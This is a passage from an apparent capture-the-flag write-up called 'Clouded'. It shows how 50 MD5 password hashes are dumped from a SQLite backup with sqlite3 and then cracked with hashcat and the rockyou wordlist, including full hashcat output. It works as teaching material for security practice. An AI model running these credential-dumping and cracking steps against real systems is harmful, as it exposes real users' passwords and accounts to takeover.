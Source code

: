 ![db_creds](Clouded.assets/db_creds.png)

It contains the credentials of 50 users (nicknamed *frontiers* in the DB).

We can check one of the password hash using [a website like this one](https://www.tunnelsup.com/hash-analyzer/), and verify that it's an MD5 password hash.

We can use the following queries to retrieve all the "password" entries from the DB to `.txt` files.

```bash
$ sqlite3 backup.db "SELECT password FROM frontiers;" > hashes.txt
```

Let's try to crack the MD5 password hashes using `hashcat`.

```bash
$ hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: passwords.txt
Time.Started.....: Mon Dec  2 22:07:20 2024 (1 sec)
Time.Estimated...: Mon Dec  2 22:07:21 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   597.2 kH/s (0.10ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 50/50 (100.00%) Digests (total), 50/50 (100.00%) Digests (new)
Progress.........: 1024/14344384 (0.01%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> bethany
Hardware.Mon.#1..: Util: 30%
```
